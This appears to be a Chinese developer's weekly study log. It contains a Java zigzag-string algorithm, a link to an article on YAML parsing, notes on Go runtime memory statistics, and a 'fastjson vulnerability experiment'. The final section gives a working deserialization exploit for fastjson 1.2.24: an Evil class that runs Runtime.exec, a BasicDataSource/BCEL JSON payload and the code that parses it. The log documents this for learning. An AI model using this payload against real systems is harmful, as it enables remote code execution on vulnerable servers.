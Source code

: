
### Algorithm
```
class Solution {
    public String convert(String s, int numRows) {

        StringBuilder[] sb = new StringBuilder[numRows];
        for (int i = 0; i < numRows; i++) {
            sb[i] = new StringBuilder();
        }

        int i = 0;
        while(i < s.length()){
            for (int row = 0; row < numRows && i < s.length(); row++) {
                sb[row].append(s.charAt(i++));
            }

            for (int c = numRows - 2; c >= 1 && i < s.length(); c--) {
                sb[c].append(s.charAt(i++));
            }
        }

        for (int j = 1; j < sb.length; j++) {
            sb[0].append(sb[j]);
        }


        return sb[0].toString();
    }
}
```

### Review
https://povilasv.me/yaml-url-parsing/

挺好的小工具

### Tips
```
1、NumGoroutine 
golang 当前的协程数量，如果持续上升可能是协程泄露

2、LastGC
上次垃圾回收完成时间,是纳秒的单位

3、PauseNs
一个循环队列，记录最近垃圾回收系统中断的时间。纳秒单位，从项目中看最多几毫秒。

4、PauseTotalNs
总的停止时间,纳秒单位。停止时间之和，这个时候只有垃圾回收协程在执行。

5、Alloc
所有堆分配的内存

6、BuckHashSys
用于剖析桶散列表的堆空间

7、DebugGC
当前未使用（没查到使用方法，有时间看源码）

8、EnableGC
垃圾回收是否启用了，一般是true

9、Frees
累积回收的堆对象

10、GCSys
标记垃圾回收使用的内存数

11、GCCPUFraction
垃圾回收时间占CPU工作时间总和

12、HeapAlloc
分配的堆内存数

13、HeapIdle
span中未使用的内存数，提前分配的内存

14、HeapInuse
正在使用的内存块

15、HeapObjects
已经分配的堆内存块数量

16、HeapReleased
返还给操作系统的内存数

17、HeapSys
从操作系统获取的内存，记录了每次获取的最大内存数

18、Lookups 
被runtime监视的指针数

19、MCacheInuse
mcache结构体分配的内存数

20、MCacheSys
mcache从操作系统获取的内存数

21、MSpanSys
mspan从操作系统获取的内存数

22、Mallocs
分配内存的次数

23、NextGC
下次垃圾回收堆目标大小

24、NumForcedGC
强制垃圾回收的次数

25、NumGC
已经完成的垃圾回收次数

26、PauseNs [256]uint64
循环队列，记录垃圾回收中断的时间

27、StackInuse
栈使用的内存块大小

28、StackSys
从操作系统获取的栈内存数

29、Sys
服务现在使用的内存数

30、TotalAlloc
堆累计分配的内存大小
```

### Share

#### fastjson 漏洞实验

fastjson：1.2.24
tomcat-dbcp：7.0.35

##### 1、生成代码class
package com.test.fastjsondemo.demo;

import java.io.IOException;

public class Evil {
    public String getName() {
        System.out.println("i am getterName!");
        return name;
    }
    public void setName(String name) {
        System.out.println("i am setterName!");
        this.name = name;
    }

    public String name;
    static {
        System.out.println("[运行静态区块]");
        
        try{
            Runtime.getRuntime().exec("open /Applications/Calculator.app");
        }catch (Exception e){
            System.out.println(e);  
        }
        
    }
}

##### 2、构造json
{
  "@type" : "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
  "driverClassLoader" :
  {
    "@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"
  },
  "driverClassName" : "$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmSKS$d3$60$U$3d$81$da$84$d2$f2$uEy$L$beh$L4$8a$f8$y$3e$QA$R$E$c62$bapt$s$84$d8$J$b6I$a7I$Z$dc$e9$9e$85$3b$c7$F$LWn$5c$88$p$e8$b0$d0$bd$ff$D$H$ff$84$e3$f9B_T$s3_r$cf$bd$e7$dc$fb$dd$7b$f3$eb$ef$ee$P$Ac$98m$40$iC$K$86$D$YA$a2$B$adP$V$9cWpA$7c$8e$w$b8$Y$40$Yc$K$$$v$b8$i$c0$V$5cUpM$bc$af$cbH$K$ca$b8$8c$h2nJ$f0YZ$d6$90$Q$9e$5b$d5$d645$a3Yi5$e5$e6M$x$9d$94P$af$a5$e9$92f$q$c8i$c3$9d$f7$C$p$d1$d8Q$a1$beI$7b$85$de$e69$d32$e6$L$d9e$p$bf$a4$zg$88$c8N$89$d9$k$fd$9f$Y$7b$y$c1O$ed$J$91$a8$3e$gc$w$bfS4$7d$d1$Z$cf$3dnZ$a6$7b$d3s$d3$ML$ad$ebF$ce5m$cb$91qK$822$aeg$8a$B$a1$94$ab$e9$_$lj9$_5$_$ca$e8$94$5d$c8$eb$c6$b4$vJ$JL$ad$99$99$d1$84$uB$c6$ed$m$spGB$8b$d9$afe$fbY$82k$e4E$9d$D2$s$83$b8$8b$9e$m$da$Q$v$f9$9d$8a$9f$97$ac$a2$b0$d2$81$m$daq$bc$E$3bU$f0$AN$b1$b3$k$ac$b3$5e7_$d0$5d$3b$3fJ$89$c8$d3$fd$9fo$f7$3fl$fc$d9$7c$ff$fb$f5$9b$bd$8d$dd$bd$cdw$cfdL$F1$8d$7b$S$G$ec$9ca$f5$ab$T$b9$5c$c6$d45$ef$b2$ea$a4$96$d1$L$Z$8d$C$J$z$97$L$e2$3e$d8$ac$b6JG$cb$7d$R$d5$3f$90$c0$94Y$d55$iW$7d$a19$ee$aac$5b$xF$d6V$bd$c3k$E$efVa$_$y$af$g$ba$5b$S4muf$a1$yx$u0$f5$caq$8d$y$a7a$X$Y$de$3eW$8a_$e4$3c$5dN$d5$d0$b2$c9$w$99$w$98$bb$90$TV$86$82$ad$V$c1G$F$cb5$c5$7e$E$d8$d1$b2$d1$7eh$cd$8a$b0$d83c$dd$d0$r$M$k$b5KU$d0b$de$d6$N$c7I$d6l$dd$c1$z$b9u$iM$x$7f$Q$a0$O$92$98$b3$f7$c5$v$f2$ed$tr$C$j$3c$3bi$c5$bc$I$m$f4$FR$b8n$H$f5$f1$af$f0$7d$s$m$a1$8bg$80n$40$86$c2GB7z$8a$b4$Eq$e1i$S$b4c$826$b4$N$dfV$99$d7$84z$9eA$b2B$7c$9a$88$f6$a2$ef$a8$94$fe$83$94$f2$a7$9a$94m$a4F$88$9cD$ffQ$v$VA$eb$de$86$5c$9b$b2$83$bcN$a6$ec$o$ca$f5$qCpGJ$v$e3$df$d0$m$f8$B$f2k$a9$7d$f01$9d$d8$ea$d3$b4$7c$f4$9d$a1$d8Y$8a$i$U$f0$bc$u$d2$x$E$g$v$f0$j$c1ph$HMO$3e$a2q$96$60$7c$H$z$5b$MQ$d8$fb$I$9a$Z$$$c4$bb$d8qxR$83$c4$e3$f4D9$89$Y$5b9$8cs$5es$eb$96d$M$ca$qF$bd1$c5$fe$B$b3$a1$ea1$F$F$A$A"
}
##### 3、运行起来
StringBuffer Buffer = new StringBuffer();
readToBuffer(Buffer,"/Users/liushulong/Desktop/fastjson/command.json");
Object obj= JSON.parseObject(Buffer.toString());
